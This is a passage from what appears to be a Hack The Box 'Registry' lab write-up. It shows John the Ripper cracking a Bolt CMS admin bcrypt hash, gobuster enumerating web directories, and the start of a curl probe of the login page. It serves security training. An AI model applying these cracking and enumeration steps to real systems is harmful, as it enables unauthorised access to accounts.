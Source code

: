 ```

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ john --wordlist=/usr/share/wordlists/rockyou.txt sqlite_hash.lst > sqlite_creds.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:03 DONE (2020-03-24 22:13) 0.2688g/s 96.77p/s 96.77c/s 96.77C/s strawberry..brianna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat sqlite_creds.txt 
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
strawberry       (admin)
```

WOOT WOOT! We have now credentials to access Bolt CMS. The credentials are **admin:strawberry**.

Let's try and enumerate web directories and php files so we can't find out how to access BOLT CMS from this box.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ gobuster dir -u http://registry.htb/bolt/ -w /usr/share/wordlists/dirb/big.txt -k -t 50 --timeout 20s -x php --wildcard
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://registry.htb/bolt/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        20s
===============================================================
2020/03/24 22:17:32 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/app (Status: 301)
/extensions (Status: 301)
/files (Status: 301)
/index.php (Status: 200)
/src (Status: 301)
/tests (Status: 301)
/theme (Status: 301)
/vendor (Status: 301)
===============================================================
2020/03/24 22:19:27 Finished
===============================================================
```

The *index.php* page should give us (possibly) a login page. This doesn't give us much, but as BOLT CMS is deployed under */var/www/html/bolt*, it is possible we are looking at this incorrectly.

Looking at BOLT CMS documentation, the login should be under */bolt*, but it isn't the case.

Let's do a test and use *https://registry.htb/bolt/bolt* as Bolt CMS was not deployed inside */var/www/html* as it normally would:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ curl -v -X GET -k https://registry.htb/bolt/bolt